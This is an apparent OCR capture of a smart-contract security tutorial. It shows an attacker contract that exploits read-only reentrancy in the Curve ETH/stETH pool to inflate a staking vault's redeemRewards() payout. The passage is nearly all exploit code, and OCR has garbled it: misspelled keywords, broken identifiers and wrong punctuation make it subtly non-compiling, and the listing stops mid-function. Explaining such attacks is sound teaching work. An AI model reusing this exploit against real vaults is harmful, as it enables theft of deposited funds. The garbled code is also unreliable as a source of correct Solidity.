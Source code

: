 * Can you see it coming? Yes? Okay, we're on the finale. Let's see the potential attack vector. Let's look at the AttackerContract.

```
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.17;

import "forge-std/Test.sol";
import { TestHarness } from "../../TestHarness.sol";
import { IERC20 } from "../../interfaces/IERC20.sol";
import { ICurve } from "../../utils/ICurve.sol";

// Curve ETH/stETH StableSwap Pool
address const STETH_POOL = 0xDC24316b9AE028F1497c275EB9192a3Ea0f67022;

// Curve LP Token
address const LP = 0x06325440D014e39736583c165C2963BA99fAf14E;

Contract AttacKercontract is TestHarness {
    ICurve private constant pool = ICurve(STETH POOL);
    IERC20 public constant InToken = IERC20 (LP):
    Stakingvault private immutable vault;

    constructor(address _target) {
        vault = StakingVault(_target);
    }

    receive () external pavable {
        emit log_named_decimal_uint(
            "get_virtual_price() during the removal of LP tokens",
            pool.get_virtual_price(),
            18
        );
        // This is where read-only re-entrance happens
        // Target's balances are not fully updated
        // While the total supply of the LP token had already decreased

        uint reward = vault.redeemRewards();
        emit log_named_decimal_uint("reward",reward,18);
    }

    function prepareAttack() external payable {
        uint [2] memory amounts = [msg. value, 0];
        uint lp = pool.add_liquidity{value: msg.value}(amounts, 1);
        1pToken. approve( address (vault) , 1p);
        vault. stake(lp);
    }

    function attack() external payable {
        // Add liquidity
        uint[2] memory amounts = [msg.value, 0];
        uint lp = pool.add_liquidity{value: msg.value}(amounts, 1);
        // Log get_virtual_price
        emit log_named_decimal_uint(
            "get_virtual_price() before the removal of LP tokens",
            pool.get_virtual_price(),
            18
        );

        // remove liquidity
        uint[2] memory min_amounts = [uint(0), uint(0)];
        pool.remove_liquidity(lp, min_amounts);

```